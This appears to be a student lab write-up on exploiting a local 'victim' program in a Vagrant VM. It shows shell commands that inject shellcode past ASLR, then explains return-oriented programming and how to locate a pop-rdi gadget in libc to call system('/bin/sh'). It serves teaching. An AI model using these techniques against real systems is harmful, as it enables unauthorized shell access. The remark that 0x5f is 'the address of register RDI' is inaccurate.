 In second terminal:
```
vagrant@precise64:~/480-project2$ sp=`ps --no-header -C victim -o esp`
vagrant@precise64:~/480-project2$ a=`printf %016x $((0x7fff$sp+88)) | tac -r -s..`
vagrant@precise64:~/480-project2$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; cat ) > pip
```

We overcame ASLR, but not NX. This is because we are trying to overwrite name buffer and execute the code within the buffer. To rectify the problem, we will use return-oriented programming, which allows us to fill the buffer instead with addresses that point to the location of the executable code.

In essence, we override the meaning of RET because the stack pointer will now be jumping to the a memory location held where instructions will be processed. SP is then incremented by 8 as usual, but these will be new instructions from RET. When these instructions encounter RET again, the process is repeated until finally the program ends.

These instructions ending with RET are called gadgets.

### Go go gadgets
We begin by trying to call the system() function from libc with "/bin/sh" as the argument.

Locate libc:
```
vagrant@precise64:~/480-project2$ locate libc.so
/lib/x86_64-linux-gnu/libc.so.6
```

Display disassemble information from the libc and only show the first 5 lines before 'ret' and separate results by --
```
vagrant@precise64:~/480-project2$ objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -B5 ret
```

This prints out way too much information and we only want to know the gadget that allows us to assign a value to RDI and then call RET to jump to the libc system() function. The value at the top of stack should be a pointer to the address of "/bin/sh" so that when we pop, we are able to assign that to RDI.

Maybe along the lines of:
```
pop  %rdi
retq
```

We settle for a solution that uses regex:
```
vagrant@precise64:~/480-project2$ xxd -c1 -p /lib/x86_64-linux-gnu/libc.so.6 | grep -n -B1 c3 |
> grep 5f -m1 | awk '{printf"%x\n",$1-1}'
22a12
```

In layman terms, we look for c3, which is the opcode for retq, and 5f, the address of register RDI. Given that we found the correct instructions, we calculate the offset to be 0x22a12.

Finally, we should be able to calculate the location of the gadget, the beginning of buffer for "/bin/sh", and system() libc function.
